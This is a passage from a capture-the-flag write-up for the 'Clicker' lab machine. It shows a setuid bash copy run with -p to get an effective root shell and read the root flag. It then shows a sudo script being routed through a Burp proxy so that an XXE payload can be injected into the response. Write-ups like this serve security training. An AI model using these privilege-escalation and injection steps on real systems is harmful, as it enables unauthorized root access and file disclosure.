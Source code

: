 ```
jack@clicker:~$ ls -l /tmp/0xdf
-rwsrwsrwx 1 root root 1396520 Jan 25 20:36 /tmp/0xdf

```

I’ll run it (not forgetting `-p` to not drop privs) and get an effective root shell:

```
jack@clicker:~$ /tmp/0xdf -p
0xdf-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(jack)

```

And the flag:

```
0xdf-5.1# cat /root/root.txt
c9b19375************************

```

### Method \#2 via XXE

#### Configure Proxy

The intended path for this box is to use the `http_proxy` variable. This is an option for `curl` that is detailed on the `curl` [man\` page](https://curl.se/docs/manpage.html):

![image-20240127180745026](https://0xdf.gitlab.io/img/image-20240127180745026.png)

I’ll modify my Burp Proxy options to listen on all interfaces, rather than just localhost:

![image-20240125154213403](https://0xdf.gitlab.io/img/image-20240125154213403.png)

Now on running `sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh`, the request and response show up in my Burp Proxy history:

![image-20240125154252502](https://0xdf.gitlab.io/img/image-20240125154252502.png)

This allows me to modify the request and the response.

#### XXE POC

I’ll enabling response interception in Burp, and when I run the command with `http_proxy` set to my Burp instance, it’ll hang on that intercepted request, which I’ll let go through. Then it hangs on the response:

![image-20240125154455751](https://0xdf.gitlab.io/img/image-20240125154455751.png)

I’ll grab a basic XXE payload (for example from [here](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file)) and update the response:

![image-20240125154846431](https://0xdf.gitlab.io/img/image-20240125154846431.png)
